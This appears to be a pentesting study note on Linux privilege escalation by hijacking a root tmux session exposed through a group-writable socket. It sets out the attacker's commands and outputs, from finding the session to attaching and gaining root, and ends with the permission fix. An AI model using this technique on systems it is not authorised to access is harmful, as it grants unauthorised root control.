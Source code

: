 ```yaml
---
title: Hijacking Tmux Sessions
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
  - tmux
---
```

# Hijacking Tmux Sessions

Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session.

For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

---

## **🛠️ Step-by-Step Breakdown of the Attack**

The first two steps are not the attack, but the conditions that posibilitates the attack.

### **1️⃣ `tmux` is Started as Root with a Shared Socket**

```
tmux -S /shareds new -s debugsess`
```

- This command **creates a new tmux session named `debugsess`**.
- The `-S /shareds` option **sets up a custom Unix domain socket at `/shareds`** instead of the default `/tmp/tmux-<uid>/`.
- Since the user running the command is **root**, the session runs with **root privileges**.

---

### **2️⃣ Changing Ownership of the tmux Socket File**

```
chown root:devs /shareds
```

- This changes the ownership of the **tmux socket (`/shareds`)** to:
    - **User:** `root`
    - **Group:** `devs`
- The **group `devs` now has access to attach to the session.**

---

### **3️⃣ Attacker Checks for Running `tmux` Sessions**

```
ps aux | grep tmux
```

- This command lists all running processes that contain "tmux."
- The attacker sees:

```
root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess`
```

- **Key takeaways:**
    - The `tmux` session is **running as root**.
    - The socket file is located at **`/shareds`**.

---

### **4️⃣ Checking Permissions on the tmux Socket**

```
ls -la /shareds
``` 

- Output:

```
srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds`
```

- **Breakdown of permissions (`srw-rw----`)**:
    - `s` → **Socket file**.
    - `rw- rw- ---` → **Owner (`root`) and group (`devs`) can read/write to it**.
    - `---` → **Other users cannot access it**.

🔴 **Dangerous Misconfiguration!**

- Any user in the `devs` group can **attach to this session**.
- Since **the session is running as root**, **attaching grants full root access**.

---

### **5️⃣ Attacker Confirms Group Membership**

```
id
```

- Output:

```
uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```
 
- The attacker (`htb`) is **part of the `devs` group**, meaning they have access to the `/shareds` socket.

---

### **6️⃣ Attacker Hijacks the Root `tmux` Session**

```
tmux -S /shareds
```

- The attacker **attaches to the existing root session**.

Once inside, they run:

```
id
```

- Output:

```
uid=0(root) gid=0(root) groups=0(root)`
```

✅ **The attacker now has a full root shell!** 🎉



---

## Summary

- **Flaw:** Root starts a **shared tmux session** with weak permissions (`root:devs`).
- **Attack:** Attacker, part of `devs`, attaches to the session and **gets a root shell**.
- **Fix:** **Restrict access to the tmux socket file** (`chmod 600 /shareds`) and **avoid assigning sensitive groups**.